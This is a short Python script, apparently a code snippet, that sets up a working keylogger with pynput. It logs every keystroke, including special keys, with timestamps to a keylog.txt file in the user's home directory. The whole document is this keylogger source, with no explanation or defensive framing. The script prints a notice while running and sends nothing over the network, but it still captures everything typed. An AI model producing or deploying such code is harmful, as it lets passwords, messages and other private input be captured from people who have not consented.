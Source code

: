 from pynput import keyboard
import logging
from datetime import datetime
import os

# Set up logging
log_directory = os.path.expanduser("~")  # Save in user's home directory
log_filename = os.path.join(log_directory, "keylog.txt")
logging.basicConfig(filename=log_filename, level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

# Start the keylogger
with keyboard.Listener(on_press=on_press) as listener:
    print(f"[INFO] Keylogger is running. Logging to: {log_filename}")
    listener.join()
